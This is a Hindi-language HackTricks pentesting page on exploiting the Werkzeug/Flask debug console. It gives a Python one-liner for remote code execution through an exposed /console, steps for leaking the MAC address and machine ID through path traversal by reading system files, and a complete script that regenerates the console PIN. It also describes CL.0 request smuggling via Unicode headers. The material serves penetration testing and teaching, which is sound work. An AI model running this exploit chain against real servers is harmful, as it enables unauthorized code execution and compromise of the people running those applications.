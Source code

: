 # Werkzeug / Flask Debug

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Get a hacker's perspective on your web apps, network, and cloud

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जो वास्तविक व्यापार प्रभाव डालती हैं।** हमारे 20+ कस्टम टूल का उपयोग करके हमले की सतह का मानचित्रण करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Console RCE

यदि डिबग सक्रिय है तो आप `/console` तक पहुँचने और RCE प्राप्त करने का प्रयास कर सकते हैं।
```python
__import__('os').popen('whoami').read();
```
![](<../../.gitbook/assets/image (117).png>)

इंटरनेट पर कई एक्सप्लॉइट्स भी हैं जैसे [यह ](https://github.com/its-arun/Werkzeug-Debug-RCE)या मेटास्प्लॉट में एक।

## पिन सुरक्षित - पथ यात्रा

कुछ अवसरों पर **`/console`** एंडपॉइंट एक पिन द्वारा सुरक्षित होगा। यदि आपके पास **फाइल ट्रैवर्सल वल्नरेबिलिटी** है, तो आप उस पिन को उत्पन्न करने के लिए सभी आवश्यक जानकारी लीक कर सकते हैं।

### Werkzeug कंसोल पिन एक्सप्लॉइट

ऐप में एक डिबग त्रुटि पृष्ठ को मजबूर करें ताकि इसे देखा जा सके:
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
एक संदेश "कंसोल लॉक" परिदृश्य के बारे में तब सामने आता है जब Werkzeug के डिबग इंटरफेस तक पहुँचने का प्रयास किया जाता है, जो कंसोल को अनलॉक करने के लिए एक PIN की आवश्यकता को इंगित करता है। सुझाव दिया गया है कि कंसोल PIN का शोषण Werkzeug के डिबग प्रारंभिक फ़ाइल (`__init__.py`) में PIN जनरेशन एल्गोरिदम का विश्लेषण करके किया जाए। PIN जनरेशन तंत्र का अध्ययन [**Werkzeug स्रोत कोड भंडार**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/\_\_init\_\_.py) से किया जा सकता है, हालांकि संभावित संस्करण भिन्नताओं के कारण वास्तविक सर्वर कोड को फ़ाइल ट्रैवर्सल भेद्यता के माध्यम से प्राप्त करने की सलाह दी जाती है।

कंसोल PIN का शोषण करने के लिए, दो सेट के वेरिएबल्स, `probably_public_bits` और `private_bits`, की आवश्यकता होती है:

#### **`probably_public_bits`**

* **`username`**: उस उपयोगकर्ता को संदर्भित करता है जिसने Flask सत्र शुरू किया।
* **`modname`**: आमतौर पर `flask.app` के रूप में नामित होता है।
* **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**: सामान्यतः **Flask** में हल होता है।
* **`getattr(mod, '__file__', None)`**: Flask निर्देशिका के भीतर `app.py` के लिए पूर्ण पथ का प्रतिनिधित्व करता है (जैसे, `/usr/local/lib/python3.5/dist-packages/flask/app.py`)। यदि `app.py` लागू नहीं है, तो **`app.pyc`** का प्रयास करें।

#### **`private_bits`**

* **`uuid.getnode()`**: वर्तमान मशीन का MAC पता प्राप्त करता है, जिसमें `str(uuid.getnode())` इसे दशमलव प्रारूप में अनुवादित करता है।
* **सर्वर के MAC पते का निर्धारण करने के लिए**, एक को ऐप द्वारा उपयोग किए जा रहे सक्रिय नेटवर्क इंटरफेस की पहचान करनी होगी (जैसे, `ens3`)। यदि अनिश्चितता हो, तो **`/proc/net/arp`** लीक करें ताकि डिवाइस ID मिल सके, फिर **`/sys/class/net/<device id>/address`** से **MAC पता निकालें**।
*   एक हेक्साडेसिमल MAC पते को दशमलव में परिवर्तित करने के लिए नीचे दिखाए अनुसार किया जा सकता है:

```python
# उदाहरण MAC पता: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```
* **`get_machine_id()`**: `/etc/machine-id` या `/proc/sys/kernel/random/boot_id` से डेटा को `/proc/self/cgroup` की पहली पंक्ति के साथ अंतिम स्लैश (`/`) के बाद जोड़ता है।

<details>

<summary>Code for `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

सभी आवश्यक डेटा को एकत्र करने के बाद, एक्सप्लॉइट स्क्रिप्ट को Werkzeug कंसोल PIN उत्पन्न करने के लिए निष्पादित किया जा सकता है:

सभी आवश्यक डेटा को एकत्र करने के बाद, एक्सप्लॉइट स्क्रिप्ट को Werkzeug कंसोल PIN उत्पन्न करने के लिए निष्पादित किया जा सकता है। स्क्रिप्ट एकत्रित `probably_public_bits` और `private_bits` का उपयोग करके एक हैश बनाती है, जो फिर अंतिम PIN उत्पन्न करने के लिए आगे की प्रक्रिया से गुजरती है। नीचे इस प्रक्रिया को निष्पादित करने के लिए Python कोड है:
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
यह स्क्रिप्ट जुड़े हुए बिट्स को हैश करके, विशिष्ट साल्ट (`cookiesalt` और `pinsalt`) जोड़कर, और आउटपुट को फॉर्मेट करके PIN उत्पन्न करती है। यह ध्यान रखना महत्वपूर्ण है कि `probably_public_bits` और `private_bits` के वास्तविक मानों को लक्षित प्रणाली से सटीक रूप से प्राप्त करना आवश्यक है ताकि उत्पन्न PIN Werkzeug कंसोल द्वारा अपेक्षित PIN से मेल खाता हो।

{% hint style="success" %}
यदि आप Werkzeug के **पुराने संस्करण** पर हैं, तो **hashing algorithm को md5** में बदलने का प्रयास करें, sha1 के बजाय।
{% endhint %}

## Werkzeug Unicode वर्ण

जैसा कि [**इस मुद्दे**](https://github.com/pallets/werkzeug/issues/2833) में देखा गया है, Werkzeug हेडर में Unicode वर्णों के साथ एक अनुरोध को बंद नहीं करता है। और जैसा कि [**इस लेख**](https://mizu.re/post/twisty-python) में समझाया गया है, इससे CL.0 Request Smuggling भेद्यता हो सकती है।

यह इसलिए है, क्योंकि Werkzeug में कुछ **Unicode** वर्ण भेजना संभव है और यह सर्वर को **टूटने** पर मजबूर कर देगा। हालाँकि, यदि HTTP कनेक्शन **`Connection: keep-alive`** हेडर के साथ बनाया गया था, तो अनुरोध का शरीर नहीं पढ़ा जाएगा और कनेक्शन अभी भी खुला रहेगा, इसलिए अनुरोध का **शरीर** **अगले HTTP अनुरोध** के रूप में माना जाएगा।

## स्वचालित शोषण

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## संदर्भ

* [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
* [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
* [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
* [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### अपने वेब ऐप्स, नेटवर्क और क्लाउड पर हैकर का दृष्टिकोण प्राप्त करें

**वास्तविक व्यावसायिक प्रभाव के साथ महत्वपूर्ण, शोषण योग्य भेद्यताओं को खोजें और रिपोर्ट करें।** हम अपने 20+ कस्टम टूल का उपयोग करके हमले की सतह को मैप करें, सुरक्षा मुद्दों को खोजें जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करके हैकिंग ट्रिक्स साझा करें।

</details>
{% endhint %}
